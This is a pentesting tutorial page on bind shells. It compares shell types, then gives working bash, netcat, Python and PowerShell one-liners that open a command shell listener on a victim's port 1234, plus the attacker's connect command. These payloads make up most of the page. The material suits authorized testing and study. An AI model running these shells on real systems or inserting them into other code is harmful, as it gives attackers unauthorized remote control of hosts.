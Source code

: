 ```yaml
---
title: Bind Shells
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
  - bind shells
---
```

# Bind shells

??? abstract "All about shells"
    | **Shell Type**                       | **Description**                                                                                                                                                                                                                                   |
    | ------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
    | [`Reverse shell`](reverse-shells.md) | Initiates a connection back to a "listener" on our attack box.                                                                                                                                                                                    |
    | [`Bind shell`](bind-shells.md)       | "Binds" to a specific port on the target host and waits for a connection from our attack box.                                                                                                                                                     |
    | [`Web shell`](web-shells.md)         | Runs operating system commands via the web browser, typically not interactive or semi-interactive. It can also be used to run single commands (i.e., leveraging a file upload vulnerability and uploading a `PHP` script to run a single command. |


In a bind-shell the attacking machine initiates a connection to a listener port on the victim's machine. 

**First step** in this attack is initiating the listening connection on port '1234' on the remote host (the victim's), with IP '0.0.0.0' so that we can connect to it from anywhere.


## Bind shell connections

### bash

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

### netcat

```shell-session
nc -lvp 1234 -e /bin/bash
```

###  python

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

### powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

**Second step**:  If we have succeeded in previous step, we have a shell waiting for us on the specified port (1234) in the victim's machine. Now, let's  connect to it from our attacking machine:

```shell-session
 nc 10.10.10.1 1234
 # 10.10.10.1 would be the victim's machine
 # 1234 would be the listening port on victim's machine
 ```

Unlike a Reverse Shell, if we drop our connection to a bind shell for any reason, we can connect back to it and get another connection immediately. However, if the bind shell command is stopped for any reason, or if the remote host is rebooted, we would still lose our access to the remote host and will have to exploit it again to gain access.


## Some more resources

| Reverse shell | Link to resource |
| ------------- | ---------------- |
| PayloadsAllTheThings | [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)) |
